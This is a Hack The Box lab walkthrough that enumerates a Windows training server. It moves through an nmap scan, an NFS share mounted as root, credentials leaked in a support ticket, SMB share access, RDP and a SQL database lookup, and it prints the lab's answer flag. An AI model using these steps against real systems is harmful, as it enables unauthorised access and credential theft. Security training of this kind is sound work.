

## Medium Lab

### Lab Information

This second server is a server that everyone on the internal network has access to. In our discussion with our client, we pointed out that these servers are often one of the main targets for attackers and that this server should be added to the scope.

Our customer agreed to this and added this server to our scope. Here, too, the goal remains the same. We need to find out as much information as possible about this server and find ways to use it against the server itself. For the proof and protection of customer data, a user named `HTB` has been created. Accordingly, we need to obtain the credentials of this user as proof.


- Enumerate the server carefully and find the username "HTB" and its password. Then, submit this user's password as the answer
	- **lnch7ehrdn43i7AoqVPK4zWR**


### Port Scanning

Performing `nmap` port scan to find open ports on the target system.

```bash
$ sudo nmap -sV -sC 10.129.4.165 -T4
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-14 07:21 EST
Nmap scan report for 10.129.4.165
Host is up (0.22s latency).
Not shown: 921 closed tcp ports (reset), 72 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|_  100005  1,2,3       2049/udp6  mountd
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-02-14T12:23:10+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=WINMEDIUM
| Not valid before: 2026-02-13T12:14:44
|_Not valid after:  2026-08-15T12:14:44
| rdp-ntlm-info: 
|   Target_Name: WINMEDIUM
|   NetBIOS_Domain_Name: WINMEDIUM
|   NetBIOS_Computer_Name: WINMEDIUM
|   DNS_Domain_Name: WINMEDIUM
|   DNS_Computer_Name: WINMEDIUM
|   Product_Version: 10.0.17763
|_  System_Time: 2026-02-14T12:23:00+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-02-14T12:23:02
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.99 seconds
```

From the above results we can identify that the NFS service so we can start our NFS enumeration.

### Listing NFS shares

Using the below command to list NFS shares.

```bash
$ showmount -e 10.129.4.165            
Export list for 10.129.4.165:
/TechSupport (everyone)
```

### Mounting the Share

The below command is used to mount the share at the mount point

```bash
$ sudo mount -t nfs 10.129.4.165:/TechSupport ./mount_point/ -o nolock
$ cd mount_point 
cd: permission denied: mount_point
```

### Scoping the Share

After trying to access the NFS share without being `root` user, permission was denied so I tried to do the same task by being `root` user and I passed indicating there is `no_root_squash` which is a critical misconfiguration issue in the NFS configuration settings which should have been checked.

```bash
$ sudo su
┌──(root㉿kali)
└─# cd mount_point
┌──(root㉿kali)
└─# ls -alh
total 72K
drwx------ 2 nobody nogroup  64K Nov 10  2021 .
drwxrwxr-x 3 kali   kali    4.0K Feb 14 07:48 ..
-rwx------ 1 nobody nogroup    0 Nov 10  2021 ticket4238791283649.txt
-rwx------ 1 nobody nogroup    0 Nov 10  2021 ticket4238791283650.txt
-rwx------ 1 nobody nogroup    0 Nov 10  2021 ticket4238791283651.txt
-rwx------ 1 nobody nogroup    0 Nov 10  2021 ticket4238791283652.txt
-rwx------ 1 nobody nogroup    0 Nov 10  2021 ticket4238791283653.txt
-rwx------ 1 nobody nogroup    0 Nov 10  2021 ticket4238791283654.txt
-rwx------ 1 nobody nogroup    0 Nov 10  2021 ticket4238791283655.txt
-rwx------ 1 nobody nogroup    0 Nov 10  2021 ticket4238791283656.txt
-rwx------ 1 nobody nogroup    0 Nov 10  2021 ticket4238791283657.txt
-rwx------ 1 nobody nogroup    0 Nov 10  2021 ticket4238791283658.txt
...(SNIP)...
```

From the above output we can see there are multiple files but they are of `0` zero so lets try to find files which are not `0`.

```bash
┌──(root㉿kali)
└─# find . -type f ! -size 0
./ticket4238791283782.txt
──(root㉿kali)
└─# cat ./ticket4238791283782.txt
Conversation with InlaneFreight Ltd

Started on November 10, 2021 at 01:27 PM London time GMT (GMT+0200)
---
01:27 PM | Operator: Hello,. 
 
So what brings you here today?
01:27 PM | alex: hello
01:27 PM | Operator: Hey alex!
01:27 PM | Operator: What do you need help with?
01:36 PM | alex: I run into an issue with the web config file on the system for the smtp server. do you mind to take a look at the config?
01:38 PM | Operator: Of course
01:42 PM | alex: here it is:

 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 8}
 9
10securesocial {
11    
12    onLoginGoTo=/
13    onLogoutGoTo=/login
14    ssl=false
15    
16    userpass {      
17      withUserNameSupport=false
18      sendWelcomeEmail=true
19      enableGravatarSupport=true
20      signupSkipLogin=true
21      tokenDuration=60
22      tokenDeleteInterval=5
23      minimumPasswordLength=8
24      enableTokenJob=true
25      hasher=bcrypt
26      }
27
28     cookie {
29     #       name=id
30     #       path=/login
31     #       domain="10.129.2.59:9500"
32            httpOnly=true
33            makeTransient=false
34            absoluteTimeoutInMinutes=1440
35            idleTimeoutInMinutes=1440
36    }   


---  
```

From finding the non zero size file and reading its contents we are able to gather important credentials of a user.

- **username = alex**
- **password = lol123!mD**

I tried accessing the SMTP server but failed so let's try SMB enumeration with the above credentials.

### SMB Enumeration

```bash
$ smbclient -U alex -L //10.129.4.165
Password for [WORKGROUP\alex]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        devshare        Disk      
        IPC$            IPC       Remote IPC
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.4.165 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Accessing the above listed share and getting a file from there.

```bash
$ smbclient -U alex //10.129.4.165/devshare
Password for [WORKGROUP\alex]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Nov 10 11:12:22 2021
  ..                                  D        0  Wed Nov 10 11:12:22 2021
  important.txt                       A       16  Wed Nov 10 11:12:55 2021

                10328063 blocks of size 4096. 6100755 blocks available
smb: \> get important.txt
getting file \important.txt of size 16 as important.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

We found the below credentials from the `important.txt` file.

- **username = sa**
- **password = 87N1ns@slls83**

### RDP to Target Machine

```bash
xfreerdp3 /u:alex /p:'lol123!mD' /v:10.129.4.165
```

### Access the SQL Management Studio

Using the credentials discovered inside the `important.txt` file access the SQL Management Studio. Run the application as Administrator by **Right-Click** and then enter those credentials.




Now follow the below steps to get the below scenario show in the image :-

- Go to Databases
- Open accounts
- Open **dbo.devsacc**
- Right-Click on it and click edit 200 rows.

Now after doing all the above steps try to find the **HTB** account.


